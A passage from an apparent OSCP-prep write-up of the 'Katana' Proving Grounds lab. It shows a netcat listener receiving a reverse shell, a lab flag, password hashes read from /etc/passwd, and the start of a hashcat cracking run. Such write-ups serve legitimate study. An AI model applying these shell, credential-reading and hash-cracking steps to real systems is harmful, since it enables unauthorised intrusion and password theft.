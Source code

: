 ```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana/exploit]
└─$ nc -lvnp 8715
listening on [any] 8715 ...
connect to [192.168.45.201] from (UNKNOWN) [192.168.214.83] 55806
Linux katana 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 13:30:23 up  2:00,  0 users,  load average: 0.04, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

## Privilege Escalation

We find our access flag:

```
$ pwd
/var/www
$ ls -la
total 16
drwxr-xr-x  3 root     root     4096 Aug 20  2020 .
drwxr-xr-x 12 root     root     4096 May 11  2020 ..
drwxr-xr-x  3 root     root     4096 May 11  2020 html
-rw-r--r--  1 www-data www-data   33 Mar 31 12:38 local.txt
$ cat local.txt
dca1f96d7790fbf75c1162d725e3b986
```

We learn about user `katana`:

```
$ ls /home  
katana
```

From `/etc/passwd` we find some hashes for users `root` and `katana`:

```
$ cat /etc/passwd
...
root:$6$tYw4J1W.mXCmwbGt$4fzFKLA4AwjuuQM7ToRtrUvDqnuqbm0mbAMz91Bfd/wc5rYfdrI5Qz0QyT935PsuQl8bRUF/EHilSZfR/bGK/.:0:0:root:/root:/bin/bash
...
katana:$6$dX6scf3V2g2lMuzx$OP1qOSkNIaKL9cnGKObhRTJxeo9p0BwyOzsISHQGPvnTajSuxZN6eZ9U4GBY8mYsPRYuzrejhiTPsp45haxY2/:1000:1000:katana,,,:/home/katana:/bin/bash
...
```

I dump those into a file `hashes.txt` and run `hashcat` against them in autodetect mode:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana]
└─$ hashcat hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode
...
```
